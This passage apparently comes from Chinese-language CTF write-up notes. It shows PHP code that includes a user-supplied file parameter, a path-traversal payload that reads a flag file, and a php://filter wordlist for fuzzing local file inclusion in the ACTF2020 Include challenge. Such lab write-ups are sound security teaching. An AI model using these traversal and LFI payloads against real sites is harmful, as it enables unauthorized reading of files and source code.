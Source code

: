 ```php
    && is_string($_REQUEST['file'])
    && emmm::checkFile($_REQUEST['file'])
) {
    include $_REQUEST['file'];
    exit;
} else {
    echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
}
```



首先访问`hint.php`可以看出`flag`的位置

![image-20230509230821517](CTF.assets/image-20230509230821517.png)

**../即回退到上级目录，在url中使用../的时候 ../最前面随便写什么都行，只返回../最后面的文件数据。**

最后得到`payload`

`file=hint.php?../../../../../../../ffffllllaaaagggg`

![image-20230509230945255](CTF.assets/image-20230509230945255.png)

## [ACTF2020 新生赛]Include - PHP伪协议

进入网站明显的 PHP 伪协议

<img src="CTF.assets/image-20230511231514373.png" alt="image-20230511231514373" style="zoom:50%;" />

使用 BuroSuite 对其进行模糊测试，下面是 字典

```
php://filter/convert.base64-encode/resource=index.php
php://filter/read=convert.base64-encode/resource=index.php
php://filter/zlib.deflate/convert.base64-encode/resource=index.php
php://filter/zlib.deflate/resource=index.php
php://filter/read=string.rot13/resource=index.php
php://filter/read=string.toupper/resource=index.php
php://filter/read=string.tolower/resource=index.php
php://filter/read=string.strip_tags/resource=index.php
php://filter/read=convert.base64-decode/resource=index.php
php://filter/convert.base64-decode/resource=index.php
php://filter/read=convert.quoted-printable-decode/resource=index.php
php://filter/convert.quoted-printable-decode/resource=index.php
php://filter/convert.uuencode/resource=index.php
php://filter/read=convert.uuencode/resource=index.php
php://filter/convert.urlencode/resource=index.php
php://filter/read=convert.urlencode/resource=index.php
php://filter/gzip/convert.base64-encode/resource=index.php
```